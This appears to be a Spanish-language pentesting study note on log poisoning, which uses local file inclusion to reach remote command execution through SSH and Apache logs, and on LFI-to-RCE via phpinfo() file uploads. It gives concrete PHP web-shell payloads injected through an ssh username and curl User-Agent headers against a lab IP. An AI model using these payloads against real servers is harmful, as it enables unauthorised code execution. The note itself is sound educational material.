 El **Log Poisoning** es una técnica de ataque en la que un atacante **manipula** los **archivos de registro (logs)** de una aplicación web para lograr un resultado malintencionado. Esta técnica puede ser utilizada en conjunto con una vulnerabilidad **LFI** para lograr un [[RCE - (Remote Command Execution)]].  

Esto se puede dar abusando de los archivos de logs de ssh, Mail, Apache, etc.

- ## SSH 
Podriamos desde un **LFI** ver la ruta `/var/log/auth.log` o `/var/log/btmp`, entre otras, para ver los logs de SSH, y de esta manera, en caso de que los podamos ver, envenenar el log (**Log Poisoning**) intentando conectarnos a ssh por ejemplo con el comando `ssh '<?php system($_GET["cmd"]); ?>'@192.168.1.38`. 

- ## Apache 
Podriamos desde un **LFI** ver la ruta `/var/log/apache2/access.log`, entre otras, para ver los logs de Apache, y de esta manera, en caso de que los podamos ver, envenenear el log (**Log Poisoning**) intentando hacer un curl a la ruta y inyectando el comando php en el User-Agent con el comando `curl -s -X GET 'http://192.168.1.38' -d 'User-Agent: <?php system($_GET["cmd"]); ?>'` o con  `curl -s -X GET 'http://192.168.1.38' -A '<?php system("whoami"); ?>'`.

-----

# LFI to [[RCE - (Remote Command Execution)]] a través de phpinfo()

Cuando tenemos un recurso en una web el cual nos lista la función **phpinfo()**, si tenemos un **LFI** podríamos derivarlo a un [[RCE - (Remote Command Execution)]] siempre y cuando la funcionalidad **file_uploads = On**, en caso de que esto  sea así, tendríamos un *RCE*. 

Con [[Burpsuite]] deberíamos interceptar la petición al recurso en donde se lista el **phpinfo()** y *cambiar el método GET a POST* así como también simular el formato que aparece cuando enviamos archivos, esto lo podemos hacer googleando ["como es el formato del content type cuando subimos archivos"](https://stackoverflow.com/questions/14962592/whats-content-type-value-within-a-http-request-when-uploading-content)  y nos encontraremos con el siguiente formato: 

`Content-Type: multipart/form-data;boundary=<UN_NOMBRE_X>`

`--<UN_NOMBRE_X>` 
`Content-Disposition: form-data; name="name"; filename=<file_to_upload.extención>`
`Content-Type: text/plain`

`<content_file_to_upload>`
`--<UN_NOMBRE_X>`

De esta manera podríamos intentar subir un archivo *php* el cual ejecute una determinada acción, en caso de que este ataque sea exitoso, podríamos ver en la respuesta del lado del servidor, que si filtramos por el nombre del archivo que hayamos subido, veríamos algo como lo siguiente: 

**(
   \[name\] =&gt; \<file_to_upload.extención>
   \[type\] =&gt; text/plain
   \[tmp_name\] =&gt; /tmp/phpLQnUDn
   \[error\] =&gt; 0
   \[size\] =&gt; 71
)**
